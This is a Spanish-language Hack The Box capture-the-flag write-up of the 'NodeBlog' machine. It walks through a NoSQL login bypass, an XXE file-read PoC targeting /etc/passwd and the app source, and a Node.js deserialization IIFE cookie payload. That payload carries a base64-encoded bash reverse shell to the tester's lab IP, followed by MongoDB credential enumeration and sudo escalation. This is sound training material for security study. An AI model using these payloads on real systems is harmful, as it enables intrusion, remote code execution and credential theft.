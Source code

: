 ```yaml
---
layout: single
title: NodeBlog - Hack The Box
excerpt: "Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS."
date: 2023-11-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-nodeblog/nodeblog_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - NoSQL Injection (Authentication Bypass)
  - XXE File Read
  - NodeJS Deserialization Attack (IIFE Abusing)
  - Mongo Database Enumeration
  - abusing sudoers
---
```


Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS.


# PortScan
__________
```
# Nmap 7.93 scan initiated Mon Nov 20 09:49:30 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.11.139
Nmap scan report for 10.10.11.139
Host is up (0.063s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 09:49:45 2023 -- 1 IP address (1 host up) scanned in 14.89 seconds
```

# Web Site
_______________
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120112841.png)

Realicé un **FUZZING** web para posibles directorios existentes en la máquina víctima, pero no encontré nada interesante, probé ingresando usuarios default típicos, y ví qué decía cuando un usuario era válido y cuando no, descubriendo así que el usuario "**admin**" existe, pero ninguna contraseña típica funcionó, por lo qué opté por interceptar esto con el Proxy **BurpSuite**.

# Proxy BurpSuite
___

Aquí empecé a probar distintas inyecciones de **DB's** , entre ellas NoSQL's, descubriendo qué era vulnerable a inyecciones **NoSQL**, pero con un body en formato Json y no DATA.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120113655.png)

Como conocemos un usuario **válido**, usamos la operativa "**not equal**" para hacer un ByPass de contraseña, logrando así entrar como Admin.

En resumen,  al usuario "**admin**" ser válido, y la contraseña no ser igual a "**test**" **ByPassareamos** ésto porque verdaderamente la contraseña **NO ES IGUAL** a "test." logrando así iniciar sesión y seteandonos una cookie.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120115202.png)

Qué por lo que parece es una cookie de sesión URL **encodeada**, y sí vamos a la web nos veríamos logueados.

![](Pasted image 20231120115651.png)


Vemos qué podemos subir archivo, así que intentamos subir un archivo cualquiera, por ejemplo un .txt a ver qué pasa...
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120049.png)

Debemos subir un archivo en formato **.XML**, así qué se me ocurre ver si podemos tratar de llevar a cabo un **XXE** con una entidad maliciosa para leer el "**/etc/passwd**".

**PoC .xml:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 
 <post>
   <title>Example Post</title>
   <description>Example Description</description>
   <markdown>&xxe;</markdown>
 </post>
```

Una vez subido, vemos qué logramos leer el "**passwd**" gracias al **XXE**.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120634.png)

Y también descubrimos que el usuario "**admin**" es un usuario válido del sistema.

Traté de leer sí existía la **"id_rsa"** de SSH, pero no encontré nada, pero curiosamente al enviar un cuerpo corrompido al servidor como solicitud de logueo, nos devolvería rutas existente como error.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121359.png)

Nos reportaría rutas, lo qué me da a entender que son rutas donde está alojado el servidor, por ende veo varios **"/opt/blog"**, así que modifico mi **XXE** para leer del "**/opt/blog/server.js**" logrando así ver el código fuente.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121703.png)

Nos chiva el código fuente qué por detrás **deserializa** la cookie **serializada**, para interpretarla, por lo qué se me ocurre de primer poner una cookie serializada maliciosa, qué a la hora de deserializarse por detrás haga lo qué me interese, investigando encontré qué podemos llevar a cabo en estas situaciones un **IIFE**.

**IIFE:** no es más qué mediante dos paréntesis colocado de forma específica en el código, ejecute ese comando colocado en los paréntesis antes de deserializar en éste caso la cookie.

[((Artículo sobre IIFE y como podemos explotar deserialización y serialización en Node JS))](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

**PoC** Payload para llevar a cabo el "**RCE**" mediante el **"IFFE"**:
```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('cmd',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Como vimos al principio, la cookie está **urlencodeada**, así qué este payload lo urlencodeamos para ponerlo como cookie en nuestro navegador, y a continuación estaré probando si logramos llevar a cabo la **RCE** seteando una cookie qué intente obtener un recurso desde la máquina víctima a mi máquina con "wget".
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124717.png)

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124740.png)

Por ende, estamos llevando a cabo el **RCE** éxitosamente, así que procederé a entablarme una **Reverse Shell** con el payload en base64.
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS80NDMgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Convertirmos en **URLENCODE**, seteamos eso como cookie de sesión, y al recargar obtendríamos nuestra **Reverse Shell**.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125050.png)

Ya quedaría darle Tratamiento a la TTY, que sino sabes como te recomiendo [((LEER ÉSTE POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios
___
Sí vemos los puertos abiertos, veremos puertos qué de manera externa no teníamos acceso.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125343.png)

Y sí indagamos en internet, veríamos que este puerto suele ser el de **MongoDB** por defecto, así que intentamos entrar...
```bash
mongo
```

Logrando así conectarnos con la DB, ahora deberíamos listar DB's que nos interesen con contenido de sus tablas, columnas...

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125522.png)

Encontrando así las credenciales del usuario actual, para posterior ver sus permisos SUDOERS.

```bash
sudo -l
```

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125604.png)

Viendo que podemos ejecutar lo que sea, es decir podemos convertirnos en Root con:
```bash
sudo su
```

![[/assets/images/htb-writeup-nodeblog/Pasted image 20231120125651.png]]
